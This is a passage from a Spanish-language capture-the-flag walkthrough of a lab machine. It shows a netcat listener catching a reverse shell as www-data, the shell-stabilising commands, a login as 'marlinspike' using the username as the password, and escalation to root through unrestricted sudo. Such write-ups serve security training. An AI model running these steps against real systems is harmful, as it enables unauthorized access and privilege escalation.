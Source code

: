 ```shell
nc -lvnp <PORT>
```

Cuando le demos a guardar automaticamente se nos creara una `Shell` con el usuario `www-data`, por lo que la sanitizaremos...

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Descubrimos un usuario llamado `marlinspike` si probamos a cambiarnos a ese usuario utilizando como contraseña el mismo nombre de usuario seremos ese usuario...

```
User = marlinspike
Password = marlinspike
```

Una vez siendo este usuario, si hacemos `sudo -l` veremos lo siguiente...

```
Matching Defaults entries for marlinspike on vtcsec:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User marlinspike may run the following commands on vtcsec:
    (ALL : ALL) ALL
```

Vemos que tenemos todos los privilegios por lo que si hacemos...

```shell
sudo su
```

Seremos `root` y con esto ya habriamos terminado la maquina...
